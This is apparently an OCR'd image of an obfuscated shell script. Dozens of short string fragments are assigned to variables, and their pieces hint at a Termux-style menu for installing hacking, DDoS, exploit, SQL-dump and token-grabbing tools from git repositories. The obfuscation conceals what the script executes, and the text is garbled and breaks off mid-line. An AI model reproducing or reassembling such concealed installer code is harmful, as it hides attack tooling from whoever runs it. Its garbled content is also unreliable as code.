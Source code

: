 [';JUz='rpti';CDz=' min';GTz='IP-L';oEz='.git';sGz='-SY}';az='r';vVz='╝╚═╝';CSz='call';HHz='lah/';aVz='n.gi';JVz='nsta';aJz='1VYV';YKz='wn.p';oGz='ku.g';bDz='s'\''';JPz=' MK_';FHz='/0xA';tVz=' '\''╩ ';dEz='er}'\''';UTz='ccge';mJz='~/we';SPz='k-br';eKz='│├┤ ';VFz='LiNJ';jVz='═╗'\''';nJz='-mas';PQz='h.gi';JLz='nAtt';UBz=''\''___';bBz='_'\''';AGz='Mass';SRz='a/ma';tMz='host';lCz=' Abo';pDz='ols.';xDz='art ';LGz=' MRK';eOz='├─┤│';cz=' -e ';DCz='$gre';pVz='╣║  ';xIz='OWSc';NNz='7ksa';gSz='com';LSz='viru';UFz='0xSQ';tJz=''\'' m';hDz=' ddo';QSz='turn';DWz='My N';sCz='en';xPz=' = 9';tOz='Hash';rPz='/b3-';yEz=''\''║║║';GSz='us';MGz='ING'\''';EUz='Loca';kJz='v we';uOz=' Bus';eUz='o / ';FPz='weem';TDz='╝'\''';OHz='ct/s';eIz='/Moh';aDz='lori';SGz='ive ';nUz='{toi';VJz='raw/';jOz='┘└┴┘';kBz='_/  ';hBz='|__|';yWz='7376';LFz='admi';WJz='K1VY';BKz='S.gi';SKz='= 20';BFz='┴┐  ';WSz='/sip';SQz='  ╦═';VMz='ol'\''';UNz='/txt';DDz='e';RDz='═╩╝╚';nLz='te2}';qTz='ng-S';eWz='Pyth';EMz=''\''╠═╝';MKz='-Sit';vOz='ter'\''';Uz='e='\''\';lNz='ing*';ECz='en  ';aEz='ing-';mHz='gith';OKz='g/in';SMz='PAYM';nBz='| |_';fFz='ploi';sQz='udo}';SUz='on 1';AOz='└──┴';wCz='ut C';WIz='/Uba';ESz='om'\''';RRz='edor';aSz='all.';RSz='ix/S';cFz='sqld';eVz='   ╦';uSz='┘┴└─';sHz='meye';QFz='ku'\''';aWz='Prog';FTz='ptux';sVz=' ╦'\''';ZWz='ls: ';dBz=' |  ';EVz='te -';bOz='┐│││';LLz='/fac';rNz='┐┬  ';SJz='aste';URz='ra.s';VQz='│ ││';LMz='┴ ┴ ';uHz='6076';lJz='bdav';MCz=' HAC';pTz='mux';LQz='MK_h';eBz='| | ';ROz='runc';wUz='ip /';JXz=''\''Ent';YJz=' &amp;&amp; ';POz='O-CO';kQz='udo'\''';cPz='/Has';CUz='or}'\''';uPz='/Ayo';wRz='Mali';yMz='chmo';wGz='rsal';mKz='┴└─┘';VPz='e.gi';Kz='[1;3';nEz='oris';ZRz=' ╦  ';yPz='Weem';xTz='ipt';NIz='t}'\'' ';qEz='fi';iPz='amit';ALz='pts'\''';jPz='/ins';aRz='╦┬┬─';JGz='tion';TCz='list';MDz='╗'\''';nGz='l0k/';hJz='expl';uFz=' OWS';NLz='ux.g';FQz='Forc';UVz='/TOK';bQz='│'\''';ACz=' Men';NKz='e}'\'' ';YIz='shel';PBz='llow';HDz=' 1 ]';LRz='nt.c';mVz='║║ ╦';ARz='tu}'\''';wIz='= 14';GBz='/Hac';iFz='ell'\''';MTz='Inta';UDz='en '\''';TKz='Aclp';oNz='a-at';vSz='   ╩';TPz='ute-';IGz='orma';DKz='MRKI';kz='    ';KVz='ll A';UIz='Xshe';lVz='╗║║║';bRz='┌─┐'\''';PMz='Meta';ySz='Ngro';Ez='red=';BPz='zer'\''';SDz='═╝╚═';MWz='G HA';MXz='ay'\'' ';QQz=' = 7';lFz='tack';gWz='nd H';dRz='├─┘├';ZJz='mv K';oBz='_| |';cBz=''\'' | ';GMz='┬┘│ ';fPz='37Ha';uKz='ersp';kSz='  ╔╦';eRz='─┤││';QXz='   G';WPz='pass';ASz='Grab';WVz='9 ]';vNz='││  ';OIz='/The';yBz='====';tDz='ddos';tPz=' = 8';THz='wpsp';iBz=' |__';rTz='hell';oLz='/der';cWz='er B';SWz='ears';OGz='o-Si';KNz='AX}'\''';cSz='om}'\''';ZNz='T-sh';Lz='4m'\''';bUz='{fig';PLz='/rev';mFz='[12]';CNz='tup.';sWz='me/H';kGz='= 2 ';JJz='oit}';sIz='= 13';AKz='e/VJ';ERz='mux-';jRz='╝│├┬';pPz='cID/';KIz='ldu';ZVz='rtb/';KMz=''\''╩  ';SEz=''\''Don';CFz='╠═╣├';YVz='/kuu';ITz='or'\''';WGz='L'\''';MMz='┴ ┴─';kPz='taha';aCz='s Ro';fOz='